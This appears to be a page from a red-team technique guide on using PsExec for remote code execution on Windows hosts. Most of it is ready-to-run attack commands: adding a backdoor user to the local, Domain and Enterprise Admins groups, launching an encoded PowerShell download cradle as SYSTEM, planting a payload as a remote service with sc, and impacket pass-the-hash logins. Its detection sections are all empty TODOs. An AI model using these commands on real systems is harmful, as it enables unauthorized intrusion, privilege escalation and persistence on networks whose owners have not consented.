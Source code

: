 # PsExec
## Summary

PsExec is a light-weight telnet-replacement that lets you execute processes on other Windows systems, complete with full interactivity for console applications, without having to manually install client software.

## Prerequisites

The target must be a Windows based operating system, and the C$ or ADMIN$ share (or equivalent share into C:\\Windows\\System32) must be *writable*. If a network share is not available, see [MOF Upload](./mof_upload.md), an alternative to PsExec.

## Setup

To set up, either obtain and utilize Administrator credentials to the share(s) in question, or make them writable by modifying user permissions in the Sharing tab on windows. To create a user that can access C$ or ADMIN$, use the following command as Administrator:

```cmd
net user kevin.beacon securepassword /add
net localgroup Administrators kevin.beacon /add
```

If within an active directory environment, you may add the user to either "Domain Admins" for the current tree in the forest, or "Enterprise Admins" for the entire forest.

```cmd
net group "Domain Admins" kevin.beacon /add /domain
net group "Enterprise Admins" kevin.beacon /add /domain
```

## Execution

### Method 1 - Sysinternals

From a Windows client, the [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) suite can be used to execute arbitrary programs on the target machine. Use `-s` to run the command as NT AUTHORITY\\SYSTEM, and use `-i` to make it interactive, though this will almost certainly break in a reverse shell. Though, using this flag also gives some useful output even when spawning a reverse shell through PsExec, which is why it is listed below.

```cmd
.\psexec.exe -accepteula -u user -p password -s -i \\remote.server.com cmd /c %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe -enc <base64 encoded cradle>
```

#### Indicators of Compromise

TODO

### Method 2 - Manually PsExecing with SC

From a Windows client, upload the binary you wish to execute on the target and start a remote service with the following commands (there is supposed to be a space after binPath):

```cmd
copy payload.exe \\remote.server.com\ADMIN$
sc \\remote.server.com create servicename binPath= "C:\Windows\payload.exe"
sc \\remote.server.com start servicename
```

#### Indicators of Compromise

TODO

### Method 3 - Impacket-PsExec

The impacket library was created in python, so as long as python and impacket are installed, this should work from any OS that supports python.

```bash
impacket-psexec DOMAIN/USERNAME:'PASSWORD'@target
```

If you do not have or know the password, but you do have the NTLM hash, then impacket also supports Pass The Hash (Only place the part of the hash after the colon in this command):

```bash
impacket-psexec -hashes :NTHASH DOMAIN/USERNAME@target
```

#### Indicators of Compromise

TODO